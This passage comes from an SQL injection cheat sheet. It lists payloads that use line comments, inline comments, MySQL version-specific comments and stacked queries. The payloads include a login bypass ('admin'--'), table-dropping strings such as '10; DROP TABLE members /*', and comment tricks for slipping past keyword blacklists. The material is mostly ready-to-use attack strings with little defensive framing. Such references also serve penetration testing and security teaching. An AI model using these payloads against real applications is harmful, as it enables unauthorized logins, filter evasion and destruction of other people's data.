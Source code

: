**Comments out rest of the query.**   
Line comments are generally useful for ignoring rest of the query so you don't have to deal with fixing the syntax.

-   `--` (SM) `DROP sampletable;--` 
-   `#` (M) `DROP sampletable;#`

##### Line Comments Sample SQL Injection Attacks

-   Username: `admin'--`
-   `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'` This is going to log you as admin user, because rest of the SQL query will be ignored.

#### Inline Comments

**Comments out rest of the query by not closing them** or you can use for **bypassing blacklisting**, removing spaces, obfuscating and determining database versions.

-   `/*Comment Here*/` (SM)
    -   `DROP/*comment*/sampletable`
    -   `DR/**/OP/*bypass blacklisting*/sampletable`
    -   `SELECT/*avoid-spaces*/password/**/FROM/**/Members`
-   `/*! MYSQL Special SQL *`/ (M)   
    This is a special comment syntax for MySQL. It's perfect for detecting MySQL version. If you put a code into this comments it's going to execute in MySQL only. Also you can use this to execute some code only if the server is higher than supplied version.   
      
    `SELECT /*!**32302** 1/0, */ 1 FROM tablename`

##### Classical Inline Comment SQL Injection Attack Samples

-   ID: `10; DROP TABLE members /*`   
    Simply get rid of other stuff at the end the of query. Same as `10; DROP TABLE members --`
-   `SELECT /*!**32302** 1/0, */ 1 FROM tablename`   
    Will throw an **divison by 0 error** if MySQL version is higher than**3.23.02**

##### MySQL Version Detection Sample Attacks

-   ID: `/*!``**32302** 10*/`
-   ID: `10`   
    You will get the **same response** if MySQL version is higher than **3.23.02**
-   `SELECT /*!**32302** 1/0, */ 1 FROM tablename`   
    Will throw a **division by 0 error** if MySQL version is higher than**3.23.02**

### Stacking Queries

**Executing more than one query in one transaction**. This is very useful in every injection point, especially in SQL Server back ended applications.

-   `;` (S)   
    `SELECT * FROM members; DROP members--`

Ends a query and starts a new one.

#### Language / Database Stacked Query Support Table

